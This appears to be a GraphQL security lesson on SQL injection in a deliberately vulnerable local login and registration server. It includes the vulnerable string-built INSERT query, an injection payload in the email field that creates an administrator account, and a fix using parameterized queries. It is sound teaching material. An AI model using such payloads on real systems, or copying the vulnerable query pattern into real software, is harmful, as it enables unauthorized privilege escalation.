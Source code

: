 ```yaml
---
title: 'SQL Injection'
description: 'While less common nowadays, SQL injections are still a threat. Learn how to exploit and prevent them.'
category: 'Injection'
difficulty: 'easy'
owasp: 'API8:2019'
introduction: true
authors: ['escape']
---
```


A SQL injection is a common attack vector that allows an attacker to execute arbitrary SQL queries on a database. This can be used to steal data, modify data, or even execute arbitrary code on the database server. This lesson focuses on a privilege escalation attack leveraging a SQL injection.

This lesson comes with a GraphQL server offering a login and registration service. To start the server, run the following command:

- Install the dependencies with `npm install`
- Start the server with `npm start`. The server will start in development mode: it will restart automatically when you make changes to the code and the database will be reset at each restart.

A GraphQL IDE should open, allowing you to query the server.

## The vulnerability

The server offers a query, `users`, allowing to retrieve the list of users, and two mutations, `login` and `register`, allowing to authenticate and register new users.

Try creating an account with the following credentials:

```graphql
mutation {
  register(email: "user@example.com", password: "password1")
}
```

You can see that the user has been created by querying the list of users:

```graphql
query {
  users {
    email
    admin
  }
}
```

And you can authenticate with the following mutation:

```graphql
mutation {
  login(email: "user@example.com", password: "password1") {
    id
    email
    admin
  }
}
```

Our goal is to exploit the `register` mutation to create an administrator account. The code behind the `register` mutation is the following:

```js
db.run(
  `INSERT INTO users (email, password, admin) VALUES ('${email}', '${password}', 0)`,
  (err) => {
    // ...
  }
);
```

If you look closely, you can see that the email and password are directly injected into the SQL query. **This is a SQL injection vulnerability.** We can exploit it by including a string terminator `'` in the email, and then arbitrary SQL. For instance, registering with the following credentials:

```graphql
mutation {
  register(
    #                      v We include a string terminator in the email
    email: "eve@example.com', '$argon2id$v=19$m=1024,t=1,p=1$Q3FMVVlaNlNjc1dIZWlQcg$p8om9rk2ef3+uzO8Hg0Gwhnx1+1vIll2qDiiWBACrUw', 1); --"
    #                          ^ We provide a password hash compatible with the server                                            ^
    #                                                                                                  We set the admin flag to 1 |
    password: "password1"
  )
}
```

The resulting query will be: (with added newlines for readability)

```sql
INSERT INTO users (email, password, admin)
VALUES (
  'eve@example.com',
  '$argon2id$v=19$m=1024,t=1,p=1$Q3FMVVlaNlNjc1dIZWlQcg$p8om9rk2ef3+uzO8Hg0Gwhnx1+1vIll2qDiiWBACrUw',
  1
); --', '$argon2id$v=19$m=1024,t=1,p=1$T1p2cTlBa0lmVg$kaoMvhUXvLxKXisdaky0kGZU2hoKD5tncvkKQkANagU', 0)
```

You can see our malicious payload completely overriding the initial query. The `--` at the end of the query is a comment, allowing the resulting SQL to be valid. The comment contains the rest of the query, `', '${password}', 0)` in the JavaScript code above.

We can query the list of users again to see if our malicious account has been created:

```graphql
query {
  users {
    email
    admin
  }
}
```

It worked! We can now authenticate with our new account:

```graphql
mutation {
  login(email: "eve@example.com", password: "password1") {
    id
    email
    admin
  }
}
```

## Preventing SQL injections

There are many ways to prevent SQL injections. Most modern ORMs and database libraries will automatically escape the values you provide to prevent SQL injections. We use [sqlite3](https://www.npmjs.com/package/sqlite3) in this lesson, and it does feature an escaping mechanism: we use the `?` placeholder to escape the values we provide to the query, and provide the values separately as an array.

Replace the database functions in `src/database.js` with the following:

```js
export const createUser = async (email, password) =>
  new Promise((resolve, reject) => {
    db.run(
      // Use the ? placeholder to escape the values
      'INSERT INTO users (email, password, admin) VALUES (?, ?, 0)',
      // Provide the values as an array
      [email, password],
      (err) => {
        if (err) reject(err);
        else resolve(undefined);
      }
    );
  });

export const getUserByEmail = async (email) =>
  new Promise((resolve, reject) => {
    // Same here
    db.all('SELECT * FROM users WHERE email = ?', [email], (err, rows) => {
      if (err) reject(err);
      else resolve(rows[0]);
    });
  });
```

You can retry the attack, but this time it won't work: **our server is now safe from SQL injections!** It however still lacks proper validation mechanisms for the email, allowing us to register with an invalid email address, but this is the subject of another lesson.
